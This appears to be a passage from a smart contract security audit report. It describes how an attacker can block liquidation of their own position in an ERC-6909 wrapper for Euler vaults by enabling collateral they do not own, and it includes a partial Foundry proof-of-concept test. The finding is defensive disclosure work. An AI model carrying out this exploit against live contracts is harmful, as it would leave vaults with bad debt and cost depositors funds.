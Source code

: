 As demonstrated below, this complex series of steps can successfully block liquidations. The violator can partially unwrap one position, and with another position can steal the remaining fees, leaving wrapper contract without sufficient currency balance for the remaining pending fees of the partially unwrapped position. When partial liquidation occurs, even if the liquidator is unwrapping a small portion of the full position, there are no fees on the balance which will cause the liquidation to revert. This setup can in fact be drastically reduced by simply enabling collateral for which the sender has no ERC-6909 balance, blocking successful transfer of other collateral assets backing the debt without relying on the fee theft.

**Impact:** An attacker can deliberately cause DoS that prevents their position from being liquidated with high likelihood. This has significant impact for the vault which will accrue bad debt.

**Proof of Concept:** Referencing the diff provided in a separate issue which defines `increasePosition()`, run the following tests with `forge test --mt test_blockLiquidationsPoC -vvv`:

* This first PoC uses the enabling of unowned collateral and transfer miscalculation:

```solidity
function test_blockLiquidationsPoC_enableCollateral() public {
    address attacker = makeAddr("attacker");

    LiquidityParams memory params = LiquidityParams({
        tickLower: TickMath.MIN_TICK + 1,
        tickUpper: TickMath.MAX_TICK - 1,
        liquidityDelta: -19999
    });

    (uint256 tokenId1,,) = boundLiquidityParamsAndMint(params);
    (uint256 tokenId2,,) = boundLiquidityParamsAndMint(params);

    startHoax(borrower);

    // 1. borrower wraps tokenId1
    wrapper.underlying().approve(address(wrapper), tokenId1);
    wrapper.wrap(tokenId1, borrower);

    // 2. attacker wraps tokenId2
    wrapper.underlying().approve(address(wrapper), tokenId2);
    wrapper.wrap(tokenId2, attacker);

    // 3. attacker enables both tokenId1 and tokenId2 as collateral
    startHoax(attacker);
    wrapper.enableTokenIdAsCollateral(tokenId1);
    wrapper.enableTokenIdAsCollateral(tokenId2);

    // 4. attacker max borrows from vault
    evc.enableCollateral(attacker, address(wrapper));
    evc.enableController(attacker, address(eVault));
    eVault.borrow(type(uint256).max, attacker);

    vm.warp(block.timestamp + eVault.liquidationCoolOffTime());

    (uint256 maxRepay, uint256 yield) = eVault.checkLiquidation(liquidator, attacker, address(wrapper));
    assertEq(maxRepay, 0);
    assertEq(yield, 0);

    // 5. simulate attacker becoming liquidatable
    startHoax(IEulerRouter(address(oracle)).governor());
    IEulerRouter(address(oracle)).govSetConfig(
        address(wrapper),
        unitOfAccount,
        address(
            new FixedRateOracle(
                address(wrapper),
                unitOfAccount,
```